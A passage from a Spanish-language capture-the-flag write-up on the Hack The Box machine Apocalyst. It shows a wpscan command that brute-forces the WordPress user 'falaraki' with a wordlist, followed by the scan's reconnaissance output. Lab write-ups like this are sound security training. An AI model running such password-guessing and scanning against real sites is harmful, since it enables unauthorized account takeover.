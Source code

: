 Si introducimos el usuario y cualquier contraseña nos dice esto así que podemos saber que el usuario existe vamos a usar `wpscan` para hacer fuerza bruta y ver si la contraseña esta en el `txt` que nos descargamos

```bash
❯ wpscan --url http://apocalyst.htb -U falaraki -P list.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.21
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o, default: [N]N
[+] URL: http://apocalyst.htb/ [10.129.152.159]
[+] Started: Fri Jul 21 19:29:10 2023

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://apocalyst.htb/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://apocalyst.htb/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://apocalyst.htb/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://apocalyst.htb/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.8 identified (Insecure, released on 2017-06-08).
 | Found By: Rss Generator (Passive Detection)
 |  - http://apocalyst.htb/?feed=rss2, <generator>https://wordpress.org/?v=4.8</generator>
 |  - http://apocalyst.htb/?feed=comments-rss2, <generator>https://wordpress.org/?v=4.8</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://apocalyst.htb/wp-content/themes/twentyseventeen/
```